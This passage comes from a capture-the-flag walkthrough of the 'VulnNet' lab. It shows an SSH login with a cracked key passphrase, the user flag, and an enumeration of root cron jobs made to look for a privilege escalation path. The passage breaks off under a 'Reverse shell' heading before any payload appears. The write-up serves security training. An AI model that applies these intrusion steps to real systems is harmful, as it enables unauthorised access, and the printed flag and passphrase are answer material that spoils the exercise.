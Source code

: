 ~~~
┌──(kali㉿kali)-[/data/VulnNet/files]
└─$ ssh -i id_rsa server-management@vulnnet.thm                                 
Enter passphrase for key 'id_rsa': oneTWO3gOyac
server-management@vulnnet:~$ cat user.txt 
THM{907e420d979d8e2992f3d7e16bee1e8b}
~~~

User flag: `THM{907e420d979d8e2992f3d7e16bee1e8b}`

# What is the root flag? (root.txt)

## Cronjob

There is a cronjob (`/var/opt/backupsrv.sh`) run by `root` every 2 minutes:

~~~
server-management@vulnnet:/tmp$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/2   * * * *	root	/var/opt/backupsrv.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
~~~

## Reverse shell

We don't have write access to the script.

~~~
server-management@vulnnet:/tmp$ cd /var/opt/
server-management@vulnnet:/var/opt$ ll
total 12
drwxr-xr-x  2 root root 4096 Jan 23 21:30 ./
drwxr-xr-x 14 root root 4096 Jan 23 14:20 ../
-rwxr--r--  1 root root  530 Jan 23 21:30 backupsrv.sh*
~~~

Let's check what the script does:
